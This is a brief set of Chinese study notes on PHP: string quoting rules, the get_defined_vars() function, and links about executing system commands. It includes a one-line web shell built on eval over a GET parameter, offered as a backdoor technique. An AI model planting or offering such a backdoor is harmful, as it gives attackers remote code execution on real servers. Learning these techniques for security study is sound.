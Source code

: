## PHP中的一些未整理完的东西
>持续更新
### 关于PHP字符串中的引号

PHP的字符串中，双引号完全支持转义字符，也支持在打印里面的变量（如果不想打印，需要写成\$）。

单引号，除非是要在单引号里面打印单引号，需要进行转义。否则，单引号中不支持其它任何形式的转义。
```php
//只有这种情况是可以转义的
$a = 'I\'m a good man.';
//打印结果为：I'm a good man.
//其它情况
$b = "hah";
$c = "a";
$a = '$b $c';
//打印结果为：$b $c
```

#### get_defined_vars()
该函数会返回一个数组，里面包含当前所有已经定义的服务器变量，环境变量和用户变量。
```php
//利用该函数可以构造一句话木马
@eval(get_defined_vars()['_GET']['cmd']);
```

#### 可以执行系统命令
https://blog.csdn.net/Auuuuuuuu/article/details/88778852

https://cloud.tencent.com/info/8ceed38d46829f15abfea34a9b82a7ff.html 